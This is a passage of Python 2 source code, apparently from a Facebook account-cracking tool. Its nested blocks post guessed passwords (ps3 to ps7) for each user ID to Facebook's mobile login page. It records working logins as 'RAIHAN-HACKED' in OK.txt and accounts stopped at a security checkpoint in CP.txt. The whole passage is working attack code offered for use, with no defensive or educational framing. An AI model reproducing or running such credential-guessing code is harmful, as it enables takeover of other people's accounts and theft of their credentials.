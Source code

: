                         print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps3 + '\x1b[0;97m'
                        cp = open('CP.txt', 'a')
                        cp.write(uid + '|' + ps3 + '\n')
                        cp.close()
                        cps.append(uid + ps3)
                    else:
                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                            'email': uid,
                            'pass': ps4,
                            'login': 'submit' })
                        sp = data.content
                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                            print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps4 + '\x1b[0;97m'
                            ok = open('OK.txt', 'a')
                            ok.write(uid + '|' + ps4 + '\n')
                            ok.close()
                            oks.append(uid + ps4)
                        elif 'checkpoint' in sp:
                            print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps4 + '\x1b[0;97m'
                            cp = open('CP.txt', 'a')
                            cp.write(uid + '|' + ps4 + '\n')
                            cp.close()
                            cps.append(uid + ps4)
                        else:
                            data = session.post('https://mbasic.facebook.com/login.php', data = {
                                'email': uid,
                                'pass': ps5,
                                'login': 'submit' })
                            sp = data.content
                            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps5 + '\x1b[0;97m'
                                ok = open('OK.txt', 'a')
                                ok.write(uid + '|' + ps5 + '\n')
                                ok.close()
                                oks.append(uid + ps5)
                            elif 'checkpoint' in sp:
                                print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps5 + '\x1b[0;97m'
                                cp = open('CP.txt', 'a')
                                cp.write(uid + '|' + ps5 + '\n')
                                cp.close()
                                cps.append(uid + ps5)
                            else:
                                data = session.post('https://mbasic.facebook.com/login.php', data = {
                                    'email': uid,
                                    'pass': ps6,
                                    'login': 'submit' })
                                sp = data.content
                                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                    print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps6 + '\x1b[0;97m'
                                    ok = open('OK.txt', 'a')
                                    ok.write(uid + '|' + ps6 + '\n')
                                    ok.close()
                                    oks.append(uid + ps6)
                                elif 'checkpoint' in sp:
                                    print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps6 + '\x1b[0;97m'
                                    cp = open('CP.txt', 'a')
                                    cp.write(uid + '|' + ps6 + '\n')
                                    cp.close()
                                    cps.append(uid + ps6)
                                else:
                                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                                        'email': uid,
                                        'pass': ps7,
                                        'login': 'submit' })
